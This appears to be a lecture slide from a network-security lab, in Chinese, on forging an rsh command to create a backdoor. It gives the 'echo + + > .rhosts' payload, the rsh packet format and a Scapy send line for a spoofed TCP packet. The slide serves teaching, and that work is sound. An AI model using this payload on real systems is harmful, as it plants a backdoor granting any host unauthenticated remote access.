

# 发送伪造指令并创建后门
后门命令：
#:echo + + > .rhosts
报文格式：
[port number]\x00[客户端ID]\x00[服务端ID]\x00[后门命令]\x00
data = ’9090\x00seed\x00seed\x00echo + + > .rhosts\x00’
send(IP()/TCP()/data, verbose=0)
21